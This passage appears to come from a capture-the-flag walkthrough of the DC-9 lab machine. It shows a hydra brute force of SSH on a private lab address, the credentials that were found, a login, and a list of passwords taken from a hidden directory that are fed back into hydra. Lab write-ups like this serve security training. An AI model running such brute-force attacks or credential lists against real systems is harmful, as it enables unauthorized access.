

4.2 Hydra brute force SSH
Use “users.txt” and “pass.txt” dictionaries, with the “hydra” tool for the bruteforce against the SSH service on the Target Machine.
a) On your Kali Machine.
$hydra
-L users.txt -P pass.txt 192.168.12.73
ssh
Output:
We've foound two credentials.
b) Log in using the following credentials.
Username: janitor
Password: Ilovepeepee
$ssh
janitor@192.168.12.73
Output:
c) Enumerate the files.
janitor@dc-9
:
~
$ls
-al
Output:
d) Traverse inside the newly found hidden directory using the cd command.
janitor@dc-9
:
~$
cd
.secrets-
for
-
putin
/
Output:
passwords-found-on-post-it-notes.txt
e) Show this file.
janitor@dc-9
:
~
/
.secrets-
for
-
putin
$ cat passwords-found-on-post-it-notes.txt
Output:
BamBam01
Passw0rd
smellycats
P0Lic#10-4
B4-Tru3-001
4uGU5T-NiGHts
f) Add these passwords to “pass.txt” file.
$gedit
pass.txt
g) Run “hydra” again.
Output:

Index